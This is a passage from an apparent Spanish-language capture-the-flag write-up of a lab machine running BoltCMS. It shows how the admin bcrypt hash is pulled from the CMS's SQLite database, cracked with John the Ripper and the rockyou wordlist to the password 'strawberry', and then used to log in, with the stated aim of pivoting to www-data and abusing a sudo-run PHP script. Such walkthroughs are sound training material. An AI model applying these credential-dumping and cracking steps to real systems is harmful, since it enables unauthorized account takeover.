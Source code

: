 Por probar vamos a migrar al usuario `www-data` ya que debería de tener permisos para ejecutar el script en PHP ya que utiliza `sudo` y quizás podamos hacer algo.

Para ello podemos pasarnos la base de datos que está utilizando esta instancia de BoltCMS que en este caso es SQLite.

```console
bolt@registry:/var/www/html/bolt/app/database$ ls
bolt.db
```

Podemos coger el hash del usuario administrador.
```console
sqlite> select * from bolt_users;
1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2019-10-17 14:34:52|10.10.14.2|Admin|["files://shell.php"]|1||||2||["root","everyone"]
```

Conseguimos crackearlo.
```console
$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
strawberry       (?)     
1g 0:00:00:02 DONE (2024-08-28 23:34) 0.4424g/s 159.2p/s 159.2c/s 159.2C/s strawberry..brianna
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Y conseguimos iniciar sesión en el BoltCMS.
![Write-up Image](images/Screenshot_14.png)
